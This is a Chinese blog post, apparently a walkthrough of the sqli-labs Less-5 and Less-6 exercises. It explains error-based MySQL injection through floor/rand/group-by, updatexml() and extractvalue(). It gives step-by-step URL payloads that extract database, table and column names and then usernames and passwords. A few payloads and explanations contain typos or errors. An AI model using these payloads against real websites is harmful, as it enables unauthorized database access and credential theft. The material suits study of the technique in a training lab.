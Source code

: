 ```yaml
---
layout: post
title: SQL_双查询注入(less6,less6)
date: 2021-06-04 13:58 +0900
category: sql-inject
---
```

<!-- TOC -->

- [0x0 SQL注入基本姿势](#0x0-sql注入基本姿势)
- [0x1 LESS-5](#0x1-less-5)
- [0x2 LESS-6](#0x2-less-6)

<!-- /TOC -->
## 0x0 SQL注入基本姿势

**floor报错注入**  

``` c
Rand() //随机函数，用于产生 0 至 1 之间的随机数
Floor() //取整函数，向下舍入为指定小数位数 如：floor(1.45,0)= 1;floor(1.55,0) = 1
Count() //汇总函数
Group by clause //分组语句
concat() //连接两个字符串
```
在一个聚合函数，比如count函数后面如果使用 **Group by** 分组语句就会把查询的一部分以错误的形式显示出来  

``` c
SELECT floor(rand()*2) //查询结果不是0就是1
SELECT CONCAT((SELECT database()), FLOOR(RAND()*2)) //查询出数据库的名称并在后面拼接0或者1
```
**如果我们把这条语句后面加上 from 一个表名。那么一般会返回security0或security1的一个集合。数目是由表本身有几条结果决定的**  

```c
select concat((select database()), floor(rand()*2)) as a from information_schema.tables group by a;
//把concat((select database()), floor(rand()2)) 这个结果取了一个别名 a
//然后使用他进行分组。这样相同的security0分到一组，security1分到一组。就剩下两个结果了
```
![](/images/20210602-1.png)
```c
select count(*), concat((select database()), floor(rand()*2)) as a from information_schema.tables group by a;
//加入count引起报错，或者正常输出
```
![](/images/20210602-2.png)
![](/images/20210602-3.png)
```c
select count(*), concat('0x7C',(select user()),'0x7C', floor(rand()*2)) as a from information_schema.tables group by a;
//加入 '~'让结果更加清晰
```

**updatexml()函数**  
```c
select * from message where id = 1 and updatexml (1, (concat (0x7C, (select @@version))) ,1);
```
**extractvalue()函数**  
```c
select * from message where id= 1 and extractvalue (1, concat (0x7C, (select user()));
```

## 0x1 LESS-5
- 存在注入点  


![](/images/20210602-4.png)
- 爆出数据库 

`?id=1' union select updatexml (1, (concat (0x7e, (select database()),0x7e)) ,1) --+`  
![](/images/20210602-5.png)
- 爆出表名  

`?id=1' union select updatexml (1, (concat (0x7e, (select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e)) ,1) --+`  
![](/images/20210602-6.png)
- 爆出字段  

`?id=1' union select updatexml (1, (concat (0x7e, (select group_concat(column_name) from information_schema.columns where   table_name='users' and table_schema = database()),0x7e)) ,1) --+`  
![](/images/20210602-7.png)
- 爆出用户名密码  

`?id=1' and updatexml(1,concat(0x5e,(select group_concat(username,0x7e,password) from users),0x5e),1) --+`  
![](/images/20210602-8.png)
**只爆出了部分结果**  
`?id=1' and updatexml(1,concat(0x5e,(substr((select group_concat(username,0x7e,password) from user),1)),0x5e),1)--+`  
**更改user后面的参数来控制**  
![](/images/20210602-9.png)

## 0x2 LESS-6
- 存在注入点  

![](/images/20210602-10.png)
- 使用floor报错注入,爆出库名  

```c
?id=1(")" union SELECT 1,count(*),concat(0x7e,(select ''''''''),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+
 //union stelect 1,count(*), *** as a 联合查询1,***并他们命名为A
 //from information_schema.table 从这个表
 //group by a 分成几组，把结果分组输出
// 利用 count + floor +group by会报错的原理
```
`?id=1" union SELECT 1,count(*),concat(0x7e,(select database()),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-11.png)
- 爆出表名  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema='security'),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-12.png)
>这里多了一个键，键1已经存在虚拟表中，由于键只能唯一，所以此时就会报错。所以在使用floor()、rand(0)、count()、group by时，数据表中至少要有3条记录才会报错，所以我们在第二条select语句末尾加上limit x,1即可让它报错继续注入。  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-13.png)
- 查到用户表  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-14.png)
- 爆列名  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select column_name from information_schema.columns where table_schema=database()and table_name='users' limit 1,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-15.png)
>修改limit 1,1;limit2,1可以爆出存在username和password字段  

- 爆字段  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select concat(0x5e,username,0x5e,password,0x5e) from users limit 0,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-16.png)